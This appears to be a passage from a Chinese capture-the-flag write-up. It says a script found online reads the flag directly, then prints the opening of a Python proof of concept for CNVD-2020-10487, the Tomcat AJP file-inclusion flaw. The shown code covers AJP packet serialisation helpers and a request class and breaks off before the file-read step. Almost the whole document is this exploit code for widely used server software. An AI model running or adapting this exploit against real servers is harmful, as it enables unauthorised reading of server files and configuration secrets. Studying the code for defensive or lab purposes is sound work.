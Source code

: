 网上有脚本，可以直接梭哈，读flag

![image-20240601221112580](./images/202406012211991.png)

**POC**

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
    size = struct.calcsize(fmt)
    buf = stream.read(size)
    return struct.unpack(fmt, buf)
def unpack_string(stream):
    size, = unpack(stream, ">h")
    if size == -1: # null string
        return None
    res, = unpack(stream, "%ds" % size)
    stream.read(1) # \0
    return res
class NotFoundException(Exception):
    pass
class AjpBodyRequest(object):
    # server == web server, container == servlet
    SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
    MAX_REQUEST_LENGTH = 8186
    def __init__(self, data_stream, data_len, data_direction=None):
        self.data_stream = data_stream
        self.data_len = data_len
        self.data_direction = data_direction
    def serialize(self):
        data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
        if len(data) == 0:
            return struct.pack(">bbH", 0x12, 0x34, 0x00)
        else:
            res = struct.pack(">H", len(data))
            res += data
        if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
            header = struct.pack(">bbH", 0x12, 0x34, len(res))
        else:
            header = struct.pack(">bbH", 0x41, 0x42, len(res))
        return header + res
    def send_and_receive(self, socket, stream):
        while True:
            data = self.serialize()
            socket.send(data)
            r = AjpResponse.receive(stream)
            while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:
                r = AjpResponse.receive(stream)
```